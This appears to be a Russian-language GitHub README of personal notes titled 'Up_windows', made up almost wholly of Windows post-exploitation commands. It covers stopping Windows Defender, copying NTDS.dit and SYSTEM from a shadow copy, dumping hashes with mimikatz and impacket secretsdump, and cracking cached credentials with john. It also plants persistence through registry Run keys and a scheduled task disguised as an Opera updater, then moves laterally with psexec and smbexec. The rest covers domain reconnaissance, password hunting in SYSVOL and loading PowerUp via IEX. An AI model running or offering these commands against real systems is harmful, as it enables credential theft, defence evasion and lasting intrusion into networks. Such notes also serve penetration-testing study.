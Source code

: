 # Up_windows
Отключить Дефендер

sc stop windefend

sc query windefend

Создание теневой копии диска

vssadmin create shadow /for=c:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy


Поиск секретов


cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config *.vbs


МИМИКАТЗ
мимикатз в метасплойт 

kiwi_cmd lsadump::sam


-----Распарсить SAM

python secretsdump.py -sam sam -system system LOCAL 

-----Распарсить NTDS.DIT

impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL >> text  

----- Получить 10 последних пользователей

Нужен system и security

reg save hklm\system c:\system 

reg save hklm\security c:\security

Подробнее: https://www.securitylab.ru/analytics/517178.php

и пытаемся крякнуть мскеш2

john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt filehash



Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим... (если уже админ то ситем)
для psexec
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f




Автозагрузка.....
Если у вас права обычного пользователя, следует использовать ветку реестра HKCU

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
 
reg add "HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"



Если у вас есть админские права в системе, следует использовать ветку HKLM — в таком случае каждый раз при запуске системы будет выполняться payload.exe или dll. Этот способ хорош тем, что не зависит от пользователя, который логинится в систему.

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v payload /t REG_SZ /d "C:\tmp\payload.dll"
 
reg add “HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run” /v payload /t REG_SZ /d “C:\tmp\payload.exe”


Пример создания запланированной задачи:

schtasks /create /sc minute /mo 5 /tn "Opera scheduled Autoupdate 1594994248" /tr C:\tmp\Opera_autoupdate1594994248.exe

at 13:01 /interactive cmd запуск с правами администратора!!!

chcp 65001

psexec -i \\\adress -u user cmd

python smbexec.py ignite/administrator:Ignite@987@192.168.1.105

***************************************************************************************************************************************************
Cбор информации в домене 

net use * \\ta-d.local\NETLOGON - подключить сетевой диск

net accounts - парольная политика пользователя

net user /domain пользователи домена
Get-ADUser -identity administrator -properties *
Get-ADUser -identity administrator -properties memberof

net user administrator /domain в какие группы входит пользователь
net group "domain admins" кто входит в группы

Get-ADcomputer -filter * -properties * | ft nmae, ipv4adress компутеры в домене
net group "domain computer"


   Скрипты векторов повышения привелегий

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config *.vbs

findstr /s /p /i /n /m "password" \\ta-d.local\SYSVOL\*.xml *.ini *.txt *.config *.vbs

Systeminfo - отображает подробную информацию о конфигурации компьютера и его операционной системы, включая конфигурацию операционной системы, информацию о безопасности, идентификатор продукта и свойства оборудования (например, ОЗУ, место на диске и сетевые карты).
Systeminfo перенаправил в текстовик, после этого я загрузил на Kali этот файл, и сейчас будем смотреть в него

Но перед этим нужно скачать exploit_suggester, например такой: GitHub - AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.


IEX (New-Object Net.WebClient).DownloadString("file://$PWD/pw.ps1")

https://github.com/HarmJ0y/PowerUp

!!! http://www.fuzzysecurity.com/tutorials/files/wmic_info.rar

Проверка мисконфигов виндовс

!!! https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  для которого import-module ./powerup.ps1 и затем Invoke-AllChecks

  

